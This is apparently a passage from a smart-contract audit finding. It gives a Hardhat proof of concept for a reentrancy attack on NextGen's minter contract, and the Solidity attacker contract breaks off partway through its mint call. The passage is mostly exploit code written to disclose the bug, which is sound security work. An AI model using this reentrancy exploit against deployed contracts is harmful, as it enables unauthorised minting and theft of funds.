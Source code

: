 ## Hardhat POC
Create file TestAttackerMintReentrancy.sol inside https://github.com/code-423n4/2023-10-nextgen/tree/main/hardhat/smart-contracts

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

import "./IMinterContract.sol";
import "./IERC721Receiver.sol";

interface IMinter {
 function mint(
     uint256 _collectionID,
     uint256 _numberOfTokens,
     uint256 _maxAllowance,
     string memory _tokenData,
     address _mintTo,
     bytes32[] calldata merkleProof,
     address _delegator,
     uint256 _saltfun_o
 ) external payable;
}

contract TestAttackerMintReentrancy {
 IMinter minterContract;
 bool received;
 uint exploitMintCount;
 Data lastUserData;
 uint initialGas;
 uint gasPerIteration;

 struct Data {
     uint256 _collectionID;
     uint256 _numberOfTokens;
     uint256 _maxAllowance;
     string _tokenData;
     address _mintTo;
     bytes32[] merkleProof;
     address _delegator;
     uint256 _saltfun_o;
 }

 constructor(address _minter) {
     minterContract = IMinter(_minter);
 }

 function mint(
     Data memory _lastUserData
 ) public payable {
     initialGas = gasleft();
     lastUserData = _lastUserData;
     received = false;

     minterContract.mint(
         _lastUserData._collectionID,
         _lastUserData._numberOfTokens,
         _lastUserData._maxAllowance,
         _lastUserData._tokenData,
         _lastUserData._mintTo,
         _lastUserData.merkleProof,
         _lastUserData._delegator,
```